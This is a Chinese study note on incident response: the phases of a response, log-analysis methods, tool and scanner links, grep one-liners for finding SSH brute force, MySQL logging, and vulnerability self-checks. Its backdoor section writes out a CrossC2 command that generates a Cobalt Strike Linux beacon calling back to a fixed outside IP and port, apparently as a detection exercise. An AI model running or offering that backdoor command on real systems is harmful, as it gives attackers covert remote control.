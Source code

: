 ## 应急响应:

保护阶段:客户反映问题，第一时间保护案发现场，一般采取操作就是隔网处理，防止攻击者持续渗透，保护当前数据，及时备份当前数据。

分析阶段:分析攻击行为，找到相应的漏洞，

复现阶段:复现攻击者是如何利用相关漏洞，

修复阶段:安全修复

建议阶段:给出合理解决方案

目的:分析出攻击时间，攻击操作，攻击后果，安全修复等并给出合理解决方案。

#### 必备知识点:

1.熟悉常见的WEB安全攻击技术
2.熟悉相关日志启用及存储查看等
3.熟悉日志中记录数据分类及分析等

#### 准备工作:

1.收集目标服务器各类信息
2.部署相关分析软件及平台等
3.整理相关安全渗透工具指纹库
4.针对异常表现第一时间触发思路

## 从表现预估入侵面及权限面进行排查

### 有明确信息网站被入侵:

基于时间：筛选攻击者从何处开始攻击，分析日志的时候就不用分析大量无用日志

基于操作：根据客户提供信息，确定数据是否被更改，数据库数据是否完整

基于指纹：相关安全渗透工具指纹库定位日志中的攻击行为

基于其他：

### 无明确信息网站被入侵:

1.WEB漏洞-检查源码类别及漏洞情况
2.中间件漏洞-检查对应版本及漏洞情况
3.第三方应用漏洞-检查是否存在漏洞应用
4.操作系统层面漏洞-检查是否存在系统漏洞
5.其他安全问题(口令,后门等) -检查相关应用口令及后门扫描

## 常见分析方法:

指纹库搜索，日志时间分析，后门追查分析，漏洞检查分析等

日志分析工具

360星图

ELK

Splunk

分析思路：日志，后门，搜索后门名，定位IP，查看行为，根据后门关键字搜索日志，找到相应关键字的日志信息，确定攻击者IP

## 操作系统(windows, linux)应急响应:

1.常见危害:暴力破解，漏洞利用，流量攻击，木马控制(Webshell, PC木马等) ,病毒感染(挖矿，蠕虫，勒索等)。
2.常见分析:计算机账户，端口，进程，网络，启动，服务，任务，文件等安全问题

### 常见日志类别及存储:

Windows, Linux

### 病毒分析

PCHunter: http://www.xuetr.com 
火绒剑: https://www.huorong.cn
Process Explorer: https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer
processhacker:
https://processhacker.sourceforge.io/downloads.php
autoruns: https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns
OTL: https://www.bleepingcomputer.com/download/otl/

Sys Inspector:
http://download.eset.com.cn/download/detail/?product=sysinspector

### 病毒查杀

卡巴斯基: http://devbuilds.kaspersky-labs.com/devbuilds/KVRT/latest/full/KVRT.exe
大蜘蛛: http://free.drweb.ru/download+cureit+free
火绒安全软件: https://www.huorong.cn
360杀毒: http://sd.360.cn/download_center.html

### 病毒动态

CVERC-国家计算机病毒应急处理中心: http://www.cverc.org.cn
微步在线威胁情报社区: https://x.threatbook.cn
火绒安全论坛: http://bbs.huorong.cn/forum-59-1.html
爱毒霸社区: http://bbs.duba.net
腾讯电脑管家: http://bbs.guanjia.qq.com/forum-2-1.html

### 在线病毒扫描网站

http://www.virscan.org		//多弓|擎在线病毒扫描网
https://habo.qq.com			//腾讯哈勃分析系统
https://virusscan.jotti.org 	//Jotti恶意软件扫描系统
http://www.scanvir.com	//计算机病毒、手机病毒、可疑文件分析

### 攻击响应-暴力破解(RDP , SSH) -Win, Linux

Windows-LogFusion载入查看:
事件归类，事件ID,事件状态等，参考百度资料
Linux-grep筛选:
1、统计了下日志，确认服务器遭受多少次暴力破解

```
grep -o "Failed password" /var/log/secure|uniq -c
```

2、输出登录爆破的第一行和最后一 -行， 确认爆破时间范围: 

```
grep "Failed password" /var/log/secure | head -1
grep "Failed password" /var/log/secure | tail -1
```

3、进一步定位有哪些IP在爆破?

```
find /var/log -name 'secure*' -type f | while read line;do awk '/Failed/{print $(NF-3)}' $line;done | awk '{a[$0]++}END{for (j in a) if(a[j] > 20) print j"="a[j]}' | sort -n -t'=' -k 2
```

4、爆破用户名的字典有哪些

```
grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr
```

5、查看登录成功的日期、用户名、IP日志

```
grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
```

6、查看登录成功的IP

```
grep "Accepted" /var/log/secure | awk '{print $11}'| sort | uniq -c | sort -nr | more
```

### 控制响应-后门木马(Webshell, PC) -Win, Linux

windows:默认配置测试
1 inux借助CrossC2项目: netstat -ntulp
https://github.com/gloxec/CrossC2
https://github.com/darkr4y/geacon
参考过程: http://www.adminxe.com/1287.html

1.项目.上传至服务端目录，给予执行权限
2.配置监听器:

windows/beacon_https/reverse_https 阿里云记得端口放行
3.生成后门:

```
./genCrossC2.Linux 47.99.49.65 5566 null null Linux x64 C2
```

通过网络监听工具及windows日志分析或执行记录查找后门]问题

### GScan自动检测-Linux

```
git clone https://github.com/grayddq/GScan.git
cd GScan
python3 GScan.py

```


1.第三方应用由于是选择性安装，如何做好信息收集和漏洞探针也是获取攻击者思路的重要操作，除去本身漏洞外，提前预知或口令相关攻击也要进行筛选。
2.排除三方应用攻击行为，自查漏洞分析攻击者思路，人工配合工具脚本
3.由于工具或脚本更新迭代快，分类复杂，打造自己的工具箱迫在眉睫

系统日志-Win日志自动神器L ogonTracer-外网内网日志
应用分析-数据库Mysql&Mssql&Oracle等分析-爆破注入操作
模拟测试-自查漏洞模拟渗透测试寻找攻击源头_漏洞口令检索
专业要求-自动化ir-rescue应急响应取证工具箱-实时为您提供服务

### 数据库Mysql &Mssql &Oracle等日志分析-爆破注入操作

常见的数据库攻击包括弱口令、SQI注入、提升权限、窃取备份等。对数据库日志进行分析，可以发现攻击行为，进一步还原攻击场景及追溯攻击源。
Mysql:启用，记录，分析(分析SQL注入及口令登录爆破等)

```
show variables like '%general%' ;
SET GLOBAL general_log = 'On' ;
SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
```

Mssql:查看，跟踪，分析(配置跟踪可分析操作，查看日志可分析登录等)

### 自查漏洞模拟渗透测试寻找攻击源头漏洞口令检索

1.日志被删除或没价值信息
2.没有思路进行分析可以采用模拟渗透

windows，linux系统漏洞自查:

WindowsVulnScan, linux-exploit-suggester

[chroblert/WindowsVulnScan (github.com)](https://github.com/chroblert/WindowsVulnScan)

2.windows，linux服务漏洞自查:
windows: Get-WmiObject -class Win32_Product
Linux: LinEnum.sh
searchsploit weblogic
利用前期信息收集配合searchsploit进行应用服务协议等漏洞检索
3.windows，linux协议弱口令自查-工具探针或人工获取判断-snetcraker

### 自动化ir-rescue应急响应工具箱-实时为您提供服务

https://github.com/diogo-fernan/ir-rescue
分析脚本_工具原理，尝试自己进行编写修改，成为自己的工具箱杀器

